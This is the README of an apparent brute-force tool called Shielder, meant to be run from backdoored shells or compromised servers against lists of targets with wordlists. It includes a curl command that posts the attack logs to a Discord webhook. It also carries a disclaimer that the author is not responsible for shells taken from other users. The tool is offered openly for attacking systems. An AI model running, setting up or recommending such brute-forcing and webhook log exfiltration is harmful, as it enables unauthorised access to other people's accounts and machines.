 <div align="center">
   <img width="270" src="src/shielder.png" alt="logo"></br><h2>Shielder</h2>

[![](https://img.shields.io/cpan/v/HTTP-Message)](https://metacpan.org/pod/Term::ANSIColor) [![CodeFactor](https://www.codefactor.io/repository/github/sinkaroid/shielder/badge)](https://www.codefactor.io/repository/github/sinkaroid/shielder) [![Build Status](https://travis-ci.com/sinkaroid/shielder.svg?branch=master)](https://travis-ci.com/sinkaroid/shielder) [![Python 3](https://pyup.io/repos/github/sinkaroid/shielder/python-3-shield.svg)](https://pyup.io/repos/github/sinkaroid/shielder/)  

----
</div>

## Shielder

Shielder has a massive Bruteforce can be a "checker". These tools let you work on small Environment outside "root" privilege. Supported send logs such as Discord webhook or etc.
- > Tested with backdoor, params, files, and ports.


## Getting Started
Make sure fill your wordlist and your redacted target from: [/init](/init/)  
- `root` is optional  
If you run this thru `crack` enviroment such as vps user or any backdoor shells, don't worry that's why **Shielder** here.

Clone this repo or with pip (if possible)

----

     $ pip install -r requirements.txt  
     $ ./mashu

- You can leave `pip` if your environment is unsupported and there is no way. You can do it with wget or curl.

## Documentation

| Function                 | Description                                                                                      |
|---------------------|--------------------------------------------------------------------------------------------------|
|`mashupl           `| single request (perl)                                                                            |
|`mashu           `| single request (python)                                                                          |
|`mass               `| bulk request (python 3)                                                                          |
|`massq              `| bulk request (python 2)                                                                          |
|`list               `| target (separated with break lines)                                                          |
|`word               `| wordlist (separated with break lines)                                                        |
|`res                `| logs and output                                                                                  |
|`lacur.log          `| readable logs                                                                                    |  

## Logging
You can track this tools, is it in? or you fail to break through? Track it with logging, eg: Discord Webhook, After the bruteforces have finished, Shielder will send you a Complete logs.
```sh
hook='discordhooks url'
isi='....'

url=${hook}
curl -H "Content-Type: application/json" \
-X POST \
-d '{"username": "Mashu", "content": "'${isi}'"}' $url
```

## More Docs:

- [docs.python.org/3/library/http.client.html](https://docs.python.org/3/library/http.client.html) HTTP protocol client
- [metacpan.org/pod/HTTP::Request](https://metacpan.org/pod/HTTP::Request) Perl HTTP::Request
- avoid bad request or anything else,recommend to run dis tools with `root` access [optional]
- `colorama` disable or remove dat if there's nothing root/privilege to install this module

This tool has been tested successfully in several environments.
- [![Linux Ubuntu](https://img.shields.io/badge/Linux-Ubuntu-orange.svg)](/Screenshot/Screenshot_2020-08-06_08-09-28.png)
[![Linux Debian](https://img.shields.io/badge/Linux-Debian-blue.svg)](/Screenshot/Screenshot_2020-08-05_23-20-41.png)
[![Linux backbox](https://img.shields.io/badge/Linux-Backbox-darkblue.svg)](/Screenshot/Screenshot_2020-08-06_08-09-28.png)
[![Windows](https://img.shields.io/badge/Win10_64-Canary-lightblue.svg)](/Screenshot/Screenshot_606.png)  

## Contributor
| [<img src="https://avatars1.githubusercontent.com/u/12372481?s=460&u=4b4ff2fadbdb04dd9534286e8cfe3a34a8586fe1&v=4" width="40px;"/><br /><sub><b>Sinkaroid</b></sub>](https://github.com/sinkaroid)<br />💻🐛|[<img src="https://avatars1.githubusercontent.com/u/19934508?s=460&v=4" width="40px;"/><br /><sub><b>Seringh</b></sub>](https://github.com/p3arce)<br /> 🐛|[<img src="https://avatars1.githubusercontent.com/u/65139960?s=200&v=4" width="40px;"/><br /><sub><b>Redsplit</b></sub>](https://github.com/Redsplit)<br /> 🔧
| :---: | :---: | :---: |


## EOF

- feel free to make PR, maybe this tools just using `sucks` pattern and `weird` implementation, if u have more good ideas than this one, just PR.
- I am not responsible whether this is used for illegality or any cases that shells were stabbed from user to another user.

